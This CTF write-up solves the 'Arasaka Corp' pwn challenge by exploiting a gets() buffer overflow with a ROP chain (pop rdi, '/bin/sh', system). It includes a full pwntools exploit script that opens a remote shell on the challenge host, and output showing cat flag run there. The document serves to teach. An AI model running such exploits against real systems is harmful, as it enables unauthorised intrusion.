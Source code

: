 # Arasaka Corp

```
The Arasaka Corporation, one of the most influential multinational conglomerate that deals in a lot of stuff, including some very shady stuff.
Get into their mainframe, expose their unethical practices to the international community and bust their business!
```

solves: *8* <br>

files given
- [ArasakaCorp](./ArasakaCorp)

connection info: ` nc nc.lagncra.sh 8000` <br>

The `file` command tells us that this is a ELF executable file, that is not stripped.
```sh
└─$ file ArasakaCorp
ArasakaCorp: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ae40a412cc2c06c2d081ac1ba94820ed61259d3e, for GNU/Linux 3.2.0, not stripped
```
checksec shows that NX[^1] is enabled, but PIE is disabled. Which means we are able to ROP[^2]
```sh
└─$ checksec ArasakaCorp
[*] '/mnt/d/CTFs/lnc/3.0/pwn/Arasaka Corp/ArasakaCorp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Checking the strings, I see one that stands out. The "/bin/sh" string might be useful.
```
└─$ rabin2 -z ArasakaCorp
ERROR: Library handler has failed for '/home/duck/.local/share/radare2/plugins/core_pdd.so'
ERROR: Library handler has failed for '/home/duck/.local/share/radare2/plugins/core_ghidra.so'
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002008 0x00402008 46  47   .rodata ascii [!] Anti DoS Signal. Patch me out for testing.
1   0x00002038 0x00402038 631 1856 .rodata utf8  \n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⡶⣶⣶⣦⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⡾⠛⠉⢠⣶⣿⣿⣶⣄⠉⠛⢿⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣿⠋⠀⠀⠀⣿⣿⣿⣿⣿⣿⠀⠀⠀⠙⣿⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \n⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⢣⣴⣶⣶⣦⡹⢿⣿⣿⡿⢏⣴⣶⣶⣦⡜⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡏⣿⣿⣿⣿⣿⣿⠀⣿⡿⠀⣿⣿⣿⣿⣿⣿⢸⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⢿⡇⠻⣿⣿⣿⣿⣿⡀⣽⣿⢀⣽⣿⣿⣿⣿⠟⢸⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n  ⠀⠀⠀⠀⠀⠀⠀⠸⣿⡀⠈⠉⠉⠉⠻⣿⣿⣿⣾⠟⠁⠉⠉⠁⠀⣾⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣷⡀⠀⠀⠀⠀⠈⣿⣿⠁⠀⠀⠀⠀⢀⣾⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢿⣦⣄⠀⠀⠀⣽⣷⠀⠀⠀⣠⣴⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⢷⣶⣾⣷⣶⡶⠿⠛⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⣀⣀⡀⠀⠀⣀⣀⣀⣀⣀⣀⠀⠀⠀⣀⣀⣀⠀⠀⠀⠀⠀⣀⣀⠀⠀⠀⠀⣀⣀⡀⠀⢀⣀⡀⠀⢀⣀⣀⣀⣀⣀⡀⠀⠀\n⣴⣿⠟⠛⢿⣦⡀⣿⡟⠛⠛⠛⣿⣷⣰⣿⠟⠛⢿⣷⡄⢠⣠⣤⡻⠻⠗⠀⣴⣿⠟⠛⢿⣦⣸⣿⣧⣾⡿⢛⣿⡿⠟⠻⣿⣦⠀\n⣿⡇⠀⠀⠀⣿⡇⣿⣷⣄⡀⠀⠉⠁⣿⣇⠀⠀⠀⣿⡇⣀⡉⠻⢿⣶⣄⡰⣿⣇⠀⠀⠀⣿⡿⣿⣿⣅⡀⢸⣿⡀⠀⠀ ⣿⠀\n⠙⠿⣷⣶⣦⣿⡇⠛⠋⠛⢿⣷⣤⡀⠙⠿⣷⣶⡦⣿⡇⢿⣷⣶⣶⣿⣿⣿⠙⠿⣷⣶⡆⣿⡟⠛⠋⠻⢿⣶⣿⣿⣷⣶⣼⣿⡁\n blocks=Basic Latin,Braille Patterns
2   0x00002778 0x00402778 35  36   .rodata ascii Arasaka Corp. Mainframe System v1.0
3   0x000027a0 0x004027a0 66  67   .rodata ascii \nDev mode enabled. If you don't know what you're doing, exit now!\n
4   0x000027e3 0x004027e3 10  11   .rodata ascii Password:
5   0x000027ee 0x004027ee 12  13   .rodata ascii \nAuth is %i\n
6   0x000027fb 0x004027fb 24  25   .rodata ascii \nWelcome, administrator!
7   0x00002814 0x00402814 7   8    .rodata ascii /bin/sh
8   0x0000281c 0x0040281c 23  24   .rodata ascii \nDev: Wrong Credentials
9   0x00002834 0x00402834 10  11   .rodata ascii Username:
10  0x0000283f 0x0040283f 11  12   .rodata ascii \nHello %s!\n
11  0x0000284b 0x0040284b 18  19   .rodata ascii Under maintenance.
```
When looking at the `login()` function, we can see the `gets` function, which is vulnerable to a buffer overflow[^3] \
![pic](./login_decomp.png) <br>
using gdb with pwndbg, I was able to segfault[^4] the program. \
![pic](./get_segfault.png) <br>
looking at where the program segfaulted, we are then able to find the amount of padding we need to overwrite the return address. In this case, we need `16` characters \
![pic](./found_BOF_pad.png) <br>
Now, I have skipped some steps. Specifically, I have not painted the full picture of the binary. Below is the list of functions. I have removed the ones that we will not be focusing on for this writeup. \
```sh
└─$ r2 ArasakaCorp
 -- This computer has gone to sleep.
[0x00401150]> aaa
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze all functions arguments/locals (afva@@@F)
INFO: Analyze function calls (aac)
INFO: Analyze len bytes of instructions for references (aar)
INFO: Finding and parsing C++ vtables (avrr)
INFO: Type matching analysis for all functions (aaft)
INFO: Propagate noreturn information (aanr)
INFO: Use -AA or aaaa to perform additional experimental analysis
[0x00401150]> afl
[...]
0x004013c8    1    116 sym.login
[...]
0x0040143c    1     55 main
[...]
0x0040131c    4    172 sym.dev
0x004010e0    1     11 sym.imp.system
[...]
[0x00401150]>
```
The execution of the program looks like this `main -> login -> program exit` \
There is another function called `dev` which has another bit of vulnerable code[^5]. However, we will not be using it for our exploit[^6] \

In `x86-64`, when calling a function, register `rdi` is used to hold the first function argument. The rest are stored in other registers and the stack[^7]. \
lets start crafting our exploit. \
<br>
The idea is to get this: `system("/bin/sh");` to gain a shell on the instance the program is on. \
We know we have a string "/bin/sh" at `0x00402814`. We also know that `rdi` is the register responsible for holding the first argument. \
```sh
[0x00401150]> /R pop rdi
  0x004014e3                 5f  pop rdi
  0x004014e4                 c3  ret
[0x00401150]>
```
r2 has a ropgadet finder that I used to find `pop rdi`. What `pop` does is get the next value from the stack, and put it into the 1st argument. With this gadget, we can put the string address into `rdi`. \
now that `rdi = "/bin/sh"`, all we need is to call `system()`.
final script
```py
from pwn import *

#io = process("./ArasakaCorp");
io = remote("nc.lagncra.sh", 8000)

buf = b'A'*16
pop_rdi = p64(0x004014e3)
bin_sh_str = p64(0x00402814)
system_addr = p64(0x004010e0)

payload = buf + pop_rdi + bin_sh_str + system_addr

io.sendline(payload)
io.sendline("")

io.interactive()
```
You can also find this in [exp.py](./exp.py)
```sh
└─$ python3 exp.py
[+] Opening connection to nc.lagncra.sh on port 8000: Done
/mnt/d/CTFs/lnc/3.0/pwn/Arasaka Corp/exp.py:14: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("")
[*] Switching to interactive mode

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⡶⣶⣶⣦⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⡾⠛⠉⢠⣶⣿⣿⣶⣄⠉⠛⢿⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣿⠋⠀⠀⠀⣿⣿⣿⣿⣿⣿⠀⠀⠀⠙⣿⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⢣⣴⣶⣶⣦⡹⢿⣿⣿⡿⢏⣴⣶⣶⣦⡜⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡏⣿⣿⣿⣿⣿⣿⠀⣿⡿⠀⣿⣿⣿⣿⣿⣿⢸⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢿⡇⠻⣿⣿⣿⣿⣿⡀⣽⣿⢀⣽⣿⣿⣿⣿⠟⢸⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
  ⠀⠀⠀⠀⠀⠀⠀⠸⣿⡀⠈⠉⠉⠉⠻⣿⣿⣿⣾⠟⠁⠉⠉⠁⠀⣾⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣷⡀⠀⠀⠀⠀⠈⣿⣿⠁⠀⠀⠀⠀⢀⣾⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢿⣦⣄⠀⠀⠀⣽⣷⠀⠀⠀⣠⣴⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⢷⣶⣾⣷⣶⡶⠿⠛⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣀⣀⡀⠀⠀⣀⣀⣀⣀⣀⣀⠀⠀⠀⣀⣀⣀⠀⠀⠀⠀⠀⣀⣀⠀⠀⠀⠀⣀⣀⡀⠀⢀⣀⡀⠀⢀⣀⣀⣀⣀⣀⡀⠀⠀
⣴⣿⠟⠛⢿⣦⡀⣿⡟⠛⠛⠛⣿⣷⣰⣿⠟⠛⢿⣷⡄⢠⣠⣤⡻⠻⠗⠀⣴⣿⠟⠛⢿⣦⣸⣿⣧⣾⡿⢛⣿⡿⠟⠻⣿⣦⠀
⣿⡇⠀⠀⠀⣿⡇⣿⣷⣄⡀⠀⠉⠁⣿⣇⠀⠀⠀⣿⡇⣀⡉⠻⢿⣶⣄⡰⣿⣇⠀⠀⠀⣿⡿⣿⣿⣅⡀⢸⣿⡀⠀⠀ ⣿⠀
⠙⠿⣷⣶⣦⣿⡇⠛⠋⠛⢿⣷⣤⡀⠙⠿⣷⣶⡦⣿⡇⢿⣷⣶⣶⣿⣿⣿⠙⠿⣷⣶⡆⣿⡟⠛⠋⠻⢿⣶⣿⣿⣷⣶⣼⣿⡁

Arasaka Corp. Mainframe System v1.0
Username:
Password:

Hello AAAAAAAAAAAAAAAA\xe3@!
Under maintenance.
$ ls
ArasakaCorp
flag
ynetd
$ cat flag
LNC2023{aR@sA$@_c0rP_D0wNF@LL_2@89}$
$
[*] Interrupted
[*] Closed connection to nc.lagncra.sh port 8000
```
We got it! <br>
FLAG: `LNC2023{aR@sA$@_c0rP_D0wNF@LL_2@89}`


[^1]: NX stands for No eXecute, which means we are not able to put code on the stack, and run it. https://en.wikipedia.org/wiki/NX_bit

[^2]: ROP, or Return Oriented Programming is using parts of code in the program(called gadgets) that allows the attacker to do things. https://ctf101.org/binary-exploitation/return-oriented-programming/

[^3]: `gets` reads until a EOF or newline is received. This can lead to buffer overflows when the amount of values that `gets` is reading is more then the buffer allocated. This can lead to it writing into other variables, and addresses.

[^4]: segfaults can happen in multiple ways, like when the `instruction pointer` of the program is pointing into NX space, or when trying to write into invalid/disallowed memory. https://en.wikipedia.org/wiki/Segmentation_fault

[^5]: It is vulnerable to a format string attack: https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/

[^6]: In all honesty, I actually tried to do it but failed pretty badly. However I found a simpler way to solve the challenge, which demostrates the idea of ROP pretty well

[^7]: Registers include `%rdi`, `%rsi`, `%rdx`, `%rcx`, `%r8`, and `%r9`. https://en.wikipedia.org/wiki/X86_calling_conventions#List_of_x86_calling_conventions (look for `x86-64` arch on Linux). The world of calling conventions is massive and wild :sweat_smile:


